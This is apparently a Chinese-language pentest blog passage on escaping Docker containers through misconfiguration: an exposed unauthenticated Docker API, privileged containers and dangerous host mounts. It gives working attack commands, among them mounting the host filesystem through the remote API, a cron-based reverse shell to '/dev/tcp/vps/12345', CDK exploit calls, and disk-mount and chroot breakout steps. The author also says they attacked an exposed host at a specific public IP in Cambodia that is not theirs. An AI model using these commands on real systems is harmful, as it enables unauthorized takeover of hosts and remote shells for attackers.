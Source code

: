 ![image-20230505143335020](images/5.png)

![image-20230505143410170](images/6.png)

### 配置不当导致逃逸

#### docker未授权漏洞

可以用vulhub的环境一键搭建，但是我本机启动的时候出了一点问题，就找了个柬埔寨的IP

![image-20230505144235781](images/7.png)

![image-20230505144427167](images/8.png)

这个漏洞相当于我们可以去执行docker命令，所以可以挂载宿主机目录启动容器，下面命令把宿主机目录挂载到了/mnt目录下

```
docker -H tcp://<ip>:2375 run -it -v /:/mnt <Image ID> /bin/bash
```

exp

```
echo '* * * * * /bin/bash -i >& /dev/tcp/vps/12345 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

其实整个过程就相当于去操作了宿主机目录下的文件，可以写SSH，可以写Crontab

或者直接利用cdk([Exploit:-docker-api-pwn](https://github.com/cdk-team/CDK/wiki/Exploit:-docker-api-pwn))在宿主机上执行命令

```
./cdk run docker-api-pwn http://136.228.141.20:2375 "touch /host/tmp/hack.txt"
```

这样就可以直接执行反弹shell的命令了

#### 特权模式启动容器

当操作者执行`docker run --privileged`时，Docker将允许容器访问宿主机上的所有设备，同时修改AppArmor或SELinux的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限

其实这里和docker未授权的思路一样，都是能操作到宿主机的东西，一样的可以去写ssh和crontab来获取宿主机权限

具体操作方式如下。

- 新建一个目录：`mkdir /test`
- 挂载磁盘到新建目录：`mount /dev/vda1 /test`
- 切换根目录：`chroot /test`

使用cdk：

```
./cdk run mount-disk
```

#### 危险挂载目录

这里和最开始docker未授权一样的，启动容器的时候将宿主机的目录挂载进去了
